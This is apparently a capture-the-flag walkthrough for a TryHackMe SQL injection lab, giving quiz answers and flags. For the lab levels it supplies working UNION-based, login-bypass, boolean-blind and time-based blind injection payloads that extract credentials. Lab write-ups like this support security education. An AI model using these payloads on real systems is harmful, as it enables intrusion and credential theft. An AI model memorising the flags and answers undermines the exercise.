# Solution

## URL
- [SQL Injection](https://tryhackme.com/room/sqlinjectionlm)

## Steps

### Task 1
#### What does SQL stand for?
1. The answer is `Structured Query Language`.

### Task 2:
#### What is the acronym for the software that controls a database?
1. The answer is `DBMS`.

#### What is the name of the grid-like structure which holds the data?
1. The answer is `Table`.

### Task 3:
#### What SQL statement is used to retrieve data?
1. The answer is `SELECT`.

#### What SQL clause can be used to retrieve data from multiple tables?
1. The answer is `UNION`.

#### What SQL statement is used to add data?
1. The answer is `INSERT`.

### Task 4:
#### What character signifies the end of an SQL query?
1. The answer is `;`.

### Task 5:
#### What is the flag after completing level 1?
1. First figure out the number of columns, using `UNION`.
2. For that use the payload `1+UNION+SELECT+1`, `1+UNION+SELECT+1,2` these will give errors for different number of columns.
3. But when you try to fetch 3 columns `1+UNION+SELECT+1,2,3`, this won't give any errors which tells us 3 columns were being fetched before.
4. Now since the page is being populated with the first entry in the returned result, we have to make that what we are fetching, so change the first number to 0.
5. Now to figure out the name of the database: `0+UNION+SELECT+1,database(),3`. Which will give `sqli_one` as result.
6. We colud have also just straightaway fetched the tables like this: `0+UNION+SELECT+1,group_concat(table_name),3+FROM+information_schema.tables+WHERE+table_schema+=+database()`. This will give us all tables which are: `article` and `staff_users`.
7. Now we will enumerate `staff_users` table.
8. So to enumerate the columns do this: `0+UNION+SELECT+1,group_concat(column_name),3+FROM+information_schema.columns+WHERE+table_name+=+'staff_users'`. This gives us 3 columns: `id`, `username` and `password`.
9. Now we can fetch `martin`'s password like this: `0+UNION+SELECT+id,username,password+FROM+staff_users+WHERE+username+=+'martin'`.
10. The password for username `martin` is `pa$$word`.
11. We could have fetched all username and passwords like this: `0+UNION+SELECT+1,group_concat(username, ' : ', password, '<br>'),3+FROM+staff_users`.
12. Submit `martin`'s password to get the flag: `THM{SQL_INJECTION_3840}`.

### Task 6:
#### What is the flag after completing level two? (and moving to level 3)
1. In this we have to bypass a login page.
2. The current SQL statement is `select * from users where username='' and password='' LIMIT 1;`.
3. If we enter `' OR '1'='1'+--+` in username field the query will become: `select * from users where username='' OR '1'='1'+--+' and password='' LIMIT 1;`.
4. This will make the whole condition true and we will bypass the authentication for the flag: `THM{SQL_INJECTION_9581}`.

### Task 7:
#### What is the flag after completing level three?
1. Begin by checking how many columns are being fetched: `' UNION SELECT 1+--+`, `' UNION SELECT 1,2+--+`. They both returned `false`.
2. `' UNION SELECT 1,2,3+--+` returns `true`, that means 3 columns are being fetched.
3. Now we need to check the name of the database. But first let's check the the length of the database name.
4. `' UNION SELECT 1,2,3 WHERE char_length(database()) < 10+--+` returned `false`.
5. `' UNION SELECT 1,2,3 WHERE char_length(database()) > 10+--+` also returned `false`.
6. This means that the length of the name of database is 10, running `' UNION SELECT 1,2,3 WHERE char_length(database()) = 10+--+` returns `true`.
7. Now let us start enumerating the actual name.
8. Send this as payload, intercept the request and send it to intruder: `' UNION SELECT 1,2,3 WHERE SUBSTRING(database(), 1, 1) = 'a'+--+`.
9. In payload add numbers, alphabets, underscore and hyphen, in grep matching add `"message":"true"`.
10. After running the first attack we got to know that the first letter is `s`.
11. Similarly we can enumerate the second character using `' UNION SELECT 1,2,3 WHERE SUBSTRING(database(), 2, 1) = 'a'+--+`. and so on till all 10 characters have been found.
12. After doind that we found that the name of the database is `sqli_three`.
13. We could have directly starting enumerating the tables and columns using `database()` function.
14. Now to enumerate the tables: `' UNION SELECT 1,2,LENGTH(GROUP_CONCAT(table_name)) AS TABLEN FROM information_schema.tables WHERE table_schema = database() HAVING TABLEN  = 5+--+`. This will return `true`.
15. Now to start enumerating like before: `' UNION SELECT 1,2,GROUP_CONCAT(table_name) AS TABLEN FROM information_schema.tables WHERE table_schema = database() HAVING SUBSTRING(TABLEN, 1, 1) = 'a'+--+`.
16. We got the table name as: `users`.
17. Now lets find out more about the columns: `' UNION SELECT 1,2,LENGTH(GROUP_CONCAT(column_name)) AS COLLEN FROM information_schema.columns WHERE table_name = 'users' HAVING COLLEN = 20+--+'` is `true`.
18. Enumerating this: `' UNION SELECT 1,2,GROUP_CONCAT(column_name) AS COLLEN FROM information_schema.columns WHERE table_name = 'users' HAVING SUBSTRING(COLLEN, 1, 1) = 'a'+--+`
19. Doing this 20 times gives us: `id,password,username`.
20. Now lets see if this has an `admin` user: `' UNION SELECT id,username,password FROM users WHERE username = 'admin'+--+`.
21. The result is `true`, so let's find the password for it: `' UNION SELECT id,username,password AS PASS FROM users WHERE username = 'admin' HAVING LENGTH(PASS) = 4+--+`, this also returns `true`.
22. Now we just need to enumerate a 4 character password, ez: `' UNION SELECT id,username,password AS PASS FROM users WHERE username = 'admin' HAVING SUBSTRING(PASS, 1, 1) = '3'+--+`.
23. Doing the above for all 4 characters, one by one gives us: `3845`.
24. After logging in with: `admin:3845`, we get out flag, `THM{SQL_INJECTION_1093}`.

### Task 8:
#### What is the final flag after completing level four?
1. We have done a lot of in depth, for this one I am going to skip some steps.
2. Intercept the request to get started.
3. Finding out number of columns in SLEEP based sqli is using: `' UNION SELECT SLEEP(5)+--+`.
4. If there was not a delay of 5 seconds then the query was unsuccessful, which means wrong number of columns.
5. `' UNION SELECT SLEEP(5),2+--+` gives a delay of 5 seconds, which means 2 columns are being fetched.
6. Now similarly we can check is a table named `users` exists or not?
7. `' UNION SELECT SLEEP(5),2 FROM users+--+` gives a delay of 5 seconds, which means `users` exists.
8. Checking if `username` column exists: `' UNION SELECT SLEEP(5),2 FROM users WHERE username = 'admin'+--+`. It exists.
9. `' UNION SELECT SLEEP(5),password FROM users WHERE username = 'admin'+--+'` confirms that `password` column also exists.
10. `' UNION SELECT SLEEP(5),password AS PASS FROM users WHERE username = 'admin' HAVING LENGTH(PASS) = 4+--+` tells that password has 4 characters.
11. `' UNION SELECT SLEEP(5),password AS PASS FROM users WHERE username = 'admin' HAVING SUBSTRING(PASS, 1, 1) = '4'+--+`, run this for all positions in string to find the password.
12. Password we found: `4961`.
13. Flag: `THM{SQL_INJECTION_MASTER}`.

### Task 9:
#### Name a protocol beginning with D that can be used to exfiltrate data from a database.
1. The answer is `DNS`.

### Task 10:
#### Name a method of protecting yourself from an SQL Injection exploit.
1. The answer is `Prepared Statements`.